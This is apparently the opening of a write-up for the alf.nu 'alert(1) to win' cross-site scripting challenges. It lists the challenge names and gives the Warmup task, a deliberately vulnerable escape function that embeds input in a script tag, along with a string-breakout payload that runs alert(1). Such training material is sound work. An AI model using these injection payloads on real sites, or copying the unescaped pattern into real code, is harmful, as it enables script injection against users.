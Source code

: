 # alf.nu

> alert(1) to win
 
## Challenges
- Warmup
- Adobe
- JSON
- Markdown
- Skandia
- JSON2


### 1. Warmup

- Task

```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```
",alert(1),"
```

